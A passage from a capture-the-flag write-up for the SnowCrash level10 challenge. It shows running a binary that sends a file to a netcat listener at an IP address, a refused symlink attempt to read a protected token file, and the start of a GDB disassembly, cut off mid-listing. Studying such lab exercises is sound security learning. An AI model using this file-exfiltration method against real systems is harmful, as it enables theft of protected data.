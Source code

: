     - `/tmp/test` in which we previously wrote something using the command `echo "something" > /tmp/test`.
    - the SnowCrash VM's IP address.
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/test 192.168.1.14
    Connecting to 192.168.1.14:6969 .. Connected! 
    Sending file .. wrote file!
    ```
    In the other window listening on port 6969 we can read :
    ```bash
    level10@SnowCrash:~$ nc -lk 6969
    .*( )*. 
    something
    <hanging prompt>
    ```
    We have successfully transferred a file that we own.  

## III - Exploiting the vulnerability
Now we need to trick the `level10` binary into sending the content of the `token` file, which we do not own.  
Unfortunately, simply creating a symlink as we did in **level08** does not seem to work :
```bash
level10@SnowCrash:~$ ln -s token /tmp/myfile
level10@SnowCrash:~$ ./level10 /tmp/myfile 192.168.1.14
You don't have access to /tmp/myfile
```
1. **Finding a vulnerability using GDB:**  
    We run the gdb debugger to better understand how the `level10` program works:
    ```bash
    level10@SnowCrash:~$ gdb level10
    (...)
    (gdb) disassemble main
    Dump of assembler code for function main:
    0x080486d4 <+0>:	push   %ebp
    0x080486d5 <+1>:	mov    %esp,%ebp
    0x080486d7 <+3>:	and    $0xfffffff0,%esp
    0x080486da <+6>:	sub    $0x1050,%esp
    0x080486e0 <+12>:	mov    0xc(%ebp),%eax
    0x080486e3 <+15>:	mov    %eax,0x1c(%esp)
    0x080486e7 <+19>:	mov    %gs:0x14,%eax
    0x080486ed <+25>:	mov    %eax,0x104c(%esp)
    0x080486f4 <+32>:	xor    %eax,%eax
    0x080486f6 <+34>:	cmpl   $0x2,0x8(%ebp)
    0x080486fa <+38>:	jg     0x804871f <main+75>
    0x080486fc <+40>:	mov    0x1c(%esp),%eax
    0x08048700 <+44>:	mov    (%eax),%edx
    0x08048702 <+46>:	mov    $0x8048a40,%eax
    0x08048707 <+51>:	mov    %edx,0x4(%esp)
    0x0804870b <+55>:	mov    %eax,(%esp)
    0x0804870e <+58>:	call   0x8048520 <printf@plt>
    0x08048713 <+63>:	movl   $0x1,(%esp)
    0x0804871a <+70>:	call   0x8048590 <exit@plt>
    0x0804871f <+75>:	mov    0x1c(%esp),%eax
    0x08048723 <+79>:	mov    0x4(%eax),%eax
    0x08048726 <+82>:	mov    %eax,0x28(%esp)
    0x0804872a <+86>:	mov    0x1c(%esp),%eax
    0x0804872e <+90>:	mov    0x8(%eax),%eax
    0x08048731 <+93>:	mov    %eax,0x2c(%esp)
    0x08048735 <+97>:	mov    0x1c(%esp),%eax
    0x08048739 <+101>:	add    $0x4,%eax
    0x0804873c <+104>:	mov    (%eax),%eax
    0x0804873e <+106>:	movl   $0x4,0x4(%esp)
    0x08048746 <+114>:	mov    %eax,(%esp)